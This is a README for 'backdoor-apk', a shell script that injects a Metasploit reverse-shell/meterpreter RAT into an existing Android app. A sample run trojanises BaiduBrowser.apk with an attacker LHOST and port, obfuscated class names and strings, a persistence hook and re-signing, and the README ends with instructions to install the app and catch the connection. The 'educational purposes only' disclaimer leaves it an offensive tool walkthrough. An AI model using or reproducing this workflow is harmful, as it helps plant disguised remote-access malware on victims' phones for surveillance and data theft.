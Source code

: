 # backdoor-apk
backdoor-apk is a shell script that simplifies the process of adding a backdoor to any Android APK file. Users of this shell script should have working knowledge of Linux, Bash, Metasploit, Apktool, the Android SDK, smali, etc. This shell script is provided as-is without warranty of any kind and is intended for educational purposes only.

Usage:

```
root@kali:~/Code/github/backdoor-apk/backdoor-apk# ./backdoor-apk.sh BaiduBrowser.apk 
          ________
         / ______ \
         || _  _ ||
         ||| || |||          AAAAAA   PPPPPPP   KKK  KKK
         |||_||_|||         AAA  AAA  PPP  PPP  KKK KKK
         || _  _o|| (o)     AAA  AAA  PPP  PPP  KKKKKK
         ||| || |||         AAAAAAAA  PPPPPPPP  KKK KKK
         |||_||_|||         AAA  AAA  PPP       KKK  KKK
         ||______||         AAA  AAA  PPP       KKK  KKK
        /__________\
________|__________|__________________________________________
       /____________\
       |____________|            Dana James Traversie

[*] Running backdoor-apk.sh v0.2.4 on Thu Sep 27 17:13:34 EDT 2018
[+] Android payload options:
1) meterpreter/reverse_http   4) shell/reverse_http
2) meterpreter/reverse_https  5) shell/reverse_https
3) meterpreter/reverse_tcp    6) shell/reverse_tcp
[?] Please select an Android payload option: 2
[?] Please enter an LHOST value: 10.6.9.31
[?] Please enter an LPORT value: 443
[+] Android manifest permission options:
1) Keep original
2) Merge with payload and shuffle
[?] Please select an Android manifest permission option: 2
[+] Handle the payload via resource script: msfconsole -r backdoor-apk.rc
[*] Decompiling original APK file...done.
[*] Locating smali file to hook in original project...done.
[+] Package where RAT smali files will be injected: com/baidu/browser/inter
[+] Smali file to hook RAT payload: com/baidu/browser/inter/BdApplication.smali
[*] Generating RAT APK file...done.
[*] Decompiling RAT APK file...done.
[*] Merging permissions of original and payload projects...done.
[*] Injecting helpful Java classes in RAT APK file...done.
[*] Creating new directory in original package for RAT smali files...done.
[+] Inject package path: com/baidu/browser/inter/pjese
[+] Generated new smali class name for MainBroadcastReceiver.smali: Iivym
[+] Generated new smali class name for MainService.smali: Aupyx
[+] Generated new smali class name for Payload.smali: Nwiuc
[+] Generated new smali class name for StringObfuscator.smali: Abnrw
[+] Generated new smali method name for StringObfuscator.obfuscate method: icobf
[+] Generated new smali method name for StringObfuscator.unobfuscate method: wbcik
[*] Copying RAT smali files to new directories in original project...done.
[*] Fixing RAT smali files...done.
[*] Obfuscating const-string values in RAT smali files...done.
[*] Adding hook in original smali file...done.
[*] Adding persistence hook in original project...done.
[*] Recompiling original project with backdoor...done.
[*] Generating RSA key for signing...done.
[*] Signing recompiled APK...done.
[*] Verifying signed artifacts...done.
[*] Aligning recompiled APK...done.
root@kali:~/Code/github/backdoor-apk/backdoor-apk#
```

The recompiled APK will be found in the 'original/dist' directory. Install the APK on a compatible Android device, run it, and handle the meterpreter connection via the generated resource script: msfconsole -r backdoor-apk.rc
